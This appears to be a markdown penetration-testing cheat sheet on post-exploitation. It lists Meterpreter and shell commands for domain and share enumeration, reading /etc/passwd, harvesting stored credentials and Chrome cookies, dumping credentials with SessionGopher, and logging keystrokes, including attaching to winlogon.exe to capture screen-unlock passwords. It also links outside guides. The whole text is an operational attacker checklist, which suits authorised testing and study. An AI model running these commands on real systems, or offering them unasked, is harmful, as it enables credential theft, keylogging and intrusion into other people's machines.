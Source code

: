 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather`
* `meterpreter> run post/linux/gather`
* `meterpreter> run enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run enum_shares`
* `meterpreter> run enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup`
* `net localhroup <group-name>`
* `net share`

## Linux
* `cat /etc/passwd`

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`
* `meterpreter> run winenum`
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
 * `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
 * `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
 * `meterpreter> run post/windows/gather/credentials/credential_collector`
 * `meterpreter> run post/multi/gather` - double tab to see all modules

## Other tools
* SessionGopher - dump local credentials (Windows)

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

